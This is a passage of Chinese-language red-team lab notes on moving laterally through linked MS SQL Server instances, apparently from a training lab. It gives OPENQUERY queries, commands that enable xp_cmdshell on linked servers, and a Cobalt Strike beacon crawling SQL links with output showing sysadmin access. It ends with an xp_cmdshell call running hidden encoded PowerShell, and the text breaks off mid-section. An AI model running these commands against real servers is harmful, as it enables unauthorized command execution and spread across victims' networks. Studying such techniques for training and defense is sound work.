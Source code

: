 ```
```
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername');
```

**注意，上面实例使用双引号，sql语句使用单引号。**


查看某个实例是否有xp_cmdshell权限
```
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'SELECT * FROM sys.configurations WHERE name = ''xp_cmdshell''');
```

如果被禁用，开启xp_cmdshell
```
EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [target instance]
EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [target instance]
```

## 方法二，自动抓取 


使用```Get-SQLServerLinkCrawl```命令

```
beacon> powershell Get-SQLServerLinkCrawl -Instance "srv-1.dev.cyberbotic.io,1433"

Version     : SQL Server 2016 
Instance    : SRV-1
CustomQuery : 
Sysadmin    : 1
Path        : {SRV-1}
User        : DEV\bfarmer
Links       : {SQL-1.CYBERBOTIC.IO}

Version     : SQL Server 2016 
Instance    : SQL-1
CustomQuery : 
Sysadmin    : 1
Path        : {SRV-1, SQL-1.CYBERBOTIC.IO}
User        : sa
Links       : {SQL01.ZEROPOINTSECURITY.LOCAL}

Version     : SQL Server 2019 
Instance    : SQL01\SQLEXPRESS
CustomQuery : 
Sysadmin    : 1
Path        : {SRV-1, SQL-1.CYBERBOTIC.IO, SQL01.ZEROPOINTSECURITY.LOCAL}
User        : sa
Links       : 
```

留意上面的实例链：```SRV-1 > SQL-1.CYBERBOTIC.IO > SQL01.ZEROPOINTSECURITY.LOCAL```

2. 执行系统shell

在```sql-1.cyberbotic.io```实例上执行系统shell

```
SELECT * FROM OPENQUERY( "sql-1.cyberbotic.io" , 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc blah''' )
```

在```sql01.zeropointsecurity.local```实例上执行系统shell

```